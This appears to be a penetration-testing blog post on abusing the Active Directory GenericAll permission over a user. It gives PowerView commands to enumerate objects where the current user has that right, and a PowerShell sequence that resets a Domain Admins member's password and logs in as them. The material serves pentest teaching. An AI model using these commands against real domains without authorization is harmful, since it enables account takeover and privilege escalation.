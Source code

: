 ```yaml
---
title:  GenericAll On User
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# GenericAll

***GenericAll*** : Is a permission that gives full rights to an active directory objects. If you have `GenericAll` on user object, you can reset user's password without knowing the current password of the user, thereby escalating your privileges.

# Enumeration

## PowerView

### GenericAll Enumeration 

Get your current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which you have `GenericAll` right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[your_current_user_sid]") -and ($_.activedirectoryrights -eq "GenericAll")}

```

*below image shows the current user `usman` has GenericAll right on user object `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum1.png)

### User Enumeration

Execute the below command to get more information about the target user.

Command

```powershell

get-netuser [target_user]

```
*below image shows the target user `ali` is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum2.png)

## BloodHound

You can also get thesame result using bloodhound.

*below image shows the current user `usman` has GenericAll right on user object `ali` who is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallb.png)

# Exploitation

## PowerView

Since you have `GenericAll` right on user `ali`, you can reset his password and login to his account by executing the below command

Command

```powershell

$pass = ConvertTo-SecureString '[Your New Password Here]' -AsPlainText -Force
set-domainuserpassword -identity [target_user] -accountpassword $pass 
runas /user:[domain\user] cmd.exe
```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum3.png)

# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
